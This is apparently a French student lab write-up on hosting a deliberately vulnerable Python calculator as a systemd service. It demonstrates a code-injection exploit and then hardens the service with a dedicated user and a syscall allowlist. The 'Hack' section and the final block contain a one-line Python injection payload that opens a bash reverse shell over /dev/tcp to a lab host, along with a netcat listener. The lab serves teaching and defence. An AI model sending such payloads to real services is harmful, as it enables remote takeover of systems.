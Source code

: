 # Part IV : My shitty app

**Je vous file [une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

> J'ai dév un truc vite fait, j'trouve ça cool d'avoir un truc simpliste de quelques lignes, facilement compréhensible !

![Shit python](./img/shit.png)

➜ **Le but de cette partie va être de :**

- prendre la maîtrise sur l'application `calc.py`, en la lançant à la main
- l'utiliser, s'y connecter en tant que client
- créer un service `calculatrice.service` qui lance l'app `calc.py` pour un hébergement propre
- harden le service !

➜ **Il vous faudra `nc` sur votre PC**

- `nc` c'est pour netcat (dispo sur tous les OS)
- un outil qui permet de se connecter de façon arbitraire à un port TCP
- utile pour tester des trucs à la main
- ou se connecter à des services simplistes comme celui-ci

## 1. Test

D'abord, on test l'app, on prend la maîtrise dessus : vous récupérez [mon ptit code](./calc.py) dans votre VM, vous le lancez à la main, vous vous y connectez pour voir comment ça fonctionne.

🌞 **Téléchargez l'app Python dans votre VM**

```sh
[gwuill@vbox ~]$ ls /opt/
calc.py
```

🌞 **Lancer l'application dans votre VM**

```sh
gwuill@Gwuill:~$ nc 192.168.56.10 13337
Hello3+3
6Hello
```
## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```sh
[gwuill@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

```sh
[gwuill@vbox ~]$ sudo systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

```sh
[gwuill@vbox ~]$ sudo systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: active (running) since Thu 2025-03-13 16:05:52 CET; 1s ago
   Main PID: 4873 (python3)
      Tasks: 1 (limit: 4650)
     Memory: 3.3M
        CPU: 13ms
     CGroup: /system.slice/calculatrice.service
             └─4873 /usr/bin/python3 /opt/calc.py

Mar 13 16:05:52 vbox systemd[1]: Started Super serveur calculatrice.
```

## 3. Hack

🌞 **Hack l'application**

```sh
gwuill@Gwuill:~$ nc 192.168.56.10 13337
Hello__import__('subprocess').getoutput('bash -i >& /dev/tcp/192.168.56.1/4444 0>&1')
```

## 4. Harden

### A. Utilisateurs

On va commencer par gérer correctement l'identité sous laquelle s'exécute le serveur calculatrice.

Si on précise rien dans un `.service`, ça s'exécute en `root` par défaut.

On va donc créer un utilisateur dédié, qui possède le strict nécessaire, et on le définira dans le `.service` pour qu'il lance notre application Python.

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```sh
[gwuill@vbox ~]$ ps -aux | grep calc
root        4873  0.0  1.1  11596  9344 ?        Ss   16:05   0:00 /usr/bin/python3 /opt/calc.py
```

🌞 **Créer l'utilisateur `calculatrice`**

```sh
[gwuill@vbox ~]$ sudo useradd -s /usr/sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```sh
[gwuill@vbox opt]$ ls -la
total 4
drwxr-xr-x.  2 root         root          21 Mar 13 15:28 .
dr-xr-xr-x. 18 root         root         235 Feb 20 08:55 ..
-r--------.  1 calculatrice calculatrice 659 Mar 13 15:23 calc.py
```

🌞 **Modifier le `.service`**

```sh
[gwuill@vbox opt]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
User=calculatrice

[gwuill@vbox ~]$ sudo systemctl daemon-reload
```

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```sh
[gwuill@vbox ~]$ ps -aux | grep cal
calcula+    4979  0.0  1.0  10824  8192 ?        Ss   16:16   0:00 /usr/bin/python3 /opt/calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

```sh
[gwuill@vbox ~]$ sudo sysdig -r normal.scap | cut -d' ' -f7 | sort | uniq | tr -s '\n' ' '
accept4 access arch_prctl bind brk close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address signaldeliver socket switch sysinfo write
```
🌞 **Tracez l'exécution de l'application : hack**

```sh
[gwuill@vbox ~]$ sudo sysdig -r hack.scap | cut -d' ' -f7 | sort | uniq | tr -s '\n' ' '
accept4 access arch_prctl bind brk clone close dup dup2 epoll_create1 execve fcntl fstat futex getdents64 getegid geteuid getgid getrandom getsockname gettid getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pipe2 pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address signaldeliver socket switch sysinfo
```


🌞 **Adaptez le `.service`**

```sh
[gwuill@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
*[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
User=calculatrice
SystemCallFilter=accept4 access arch_prctl bind brk close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread64 prlimit64 read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address socket sysinfo write
```

```sh
gwuill@Gwuill:~$ nc 192.168.56.10 13337
Hello__import__('subprocess').getoutput('bash -i >& /dev/tcp/192.168.56.1/4444 0>&1') 

bash-5.1$ gwuill@Gwuill:~$ nc -l -v -p 4444
listening on [any] 4444 ...
```


![Fork](./img/fork.png)
